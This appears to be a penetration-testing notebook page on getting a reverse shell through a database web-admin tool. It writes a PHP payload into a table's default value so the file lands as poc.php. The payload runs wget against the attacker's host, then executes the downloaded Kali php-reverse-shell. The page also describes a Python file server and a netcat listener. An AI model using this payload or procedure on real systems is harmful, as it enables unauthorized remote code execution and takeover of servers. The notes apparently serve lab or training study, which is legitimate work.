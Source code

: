 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Video Walkthrough
https://www.youtube.com/watch?v=mHsMCfg_KQw

#### reverse shell

```bash - kali
cp /usr/share/webshells/php/php-reverse-shell.php ./Shelly.txt
```

edit file to host and ip.

Create a new Database poc.php

![[Pasted image 20221108115012.png]]

![[Pasted image 20221108115033.png]]

Create a new table:

![[Pasted image 20220616154316.png]]

Paste the following php code in the "Default Value" textbox.
```bash - kali
<?php system("wget $KALI:80/Shelly.txt -O /tmp/Shelly.php; php /tmp/Shelly.php"); ?>
```

![[Pasted image 20221108115110.png]]

Below, we can see our table was created in `/usr/local/databases/poc.php`

![[Pasted image 20221115132603.png]]

Now we set up our python server.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

set up your netcat listener

![[rlwrap]]



